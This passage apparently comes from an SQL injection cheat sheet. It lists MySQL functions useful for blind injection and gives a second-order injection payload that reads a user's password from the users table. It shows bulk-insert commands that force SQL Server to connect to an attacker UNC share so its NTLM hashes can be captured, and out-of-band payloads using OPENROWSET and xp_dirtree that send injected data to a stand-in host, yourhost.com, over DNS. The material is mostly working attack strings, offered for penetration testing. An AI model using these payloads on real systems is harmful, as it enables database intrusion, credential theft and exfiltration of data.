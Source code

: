 #### Potentially Useful MySQL Functions

- `MD5()`

MD5 Hashing

- `SHA1()`

SHA1 Hashing

- `PASSWORD()`
- `ENCODE()`
- `COMPRESS()`

Compress data, can be great in large binary reading in Blind SQL Injections.

- `ROW_COUNT()`
- `SCHEMA()`
- `VERSION()`

Same as `@@version`

## Second Order SQL Injections

Basically, you put an SQL Injection to some place and expect it's unfiltered in another action. This is common hidden layer problem.

Name : `' + (SELECT TOP 1 password FROM users ) + ' `
Email :` xx@xx.com`

If application is using name field in an unsafe stored procedure or function, process etc. then it will insert first users password as your name etc.

### Forcing SQL Server to get NTLM Hashes

This attack can help you to get SQL Server user's Windows password of target server, but possibly you inbound connection will be firewalled. Can be very useful internal penetration tests. We force SQL Server to connect our Windows UNC Share and capture data NTLM session with a tool like Cain & Abel.

#### Bulk insert from a UNC Share (S)

`bulk insert foo from '\\YOURIPADDRESS\C$\x.txt'`
Check out Bulk Insert Reference to understand how can you use bulk insert.

## Out of Band Channel Attacks

### SQL Server

- ?vulnerableParam=1; SELECT * FROM OPENROWSET('SQLOLEDB', ({INJECTION})+'.yourhost.com';'sa';'pwd', 'SELECT 1')

Makes DNS resolution request to {INJECT}.yourhost.com

- ?vulnerableParam=1; DECLARE @q varchar(1024); SET @q = '\\'+({INJECTION})+'.yourhost.com\\test.txt'; EXEC master..xp_dirtree @q
